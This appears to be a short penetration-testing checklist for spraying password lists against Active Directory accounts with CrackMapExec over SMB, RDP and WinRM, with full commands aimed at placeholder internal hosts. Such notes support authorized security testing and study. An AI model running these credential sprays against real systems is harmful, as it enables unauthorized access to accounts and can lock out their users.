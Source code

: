 > Remember to try credentials on EVERY SINGLE LOGIN even if crackmapexec doesn't offer it, try it manually.

- [ ] Ensure `crackmapexec` is using most updated version on your Kali Machine
```
https://github.com/mpgn/CrackMapExec
```
- Download latest version if needed

- [ ] Spray password list against AD user list using `crackmapexec` via SMB on your Kali Machine
```
crackmapexec smb 172.16.yyy.yyy 172.16.zzz.zzz -u user_list.txt -p password_list.txt -d hentaidomain.com --continue-on-success
```

- [ ] Spray password list against AD user list using `crackmapexec` via RDP on your Kali Machine
```
crackmapexec rdp 172.16.yyy.yyy 172.16.zzz.zzz -u user_list.txt -p password_list.txt -d hentaidomain.com --continue-on-success
```

- [ ] Spray password list against AD user list using `crackmapexec` via WinRM on your Kali Machine
```
crackmapexec winrm 172.16.yyy.yyy 172.16.zzz.zzz -u user_list.txt -p password_list.txt -d hentaidomain.com --continue-on-success
```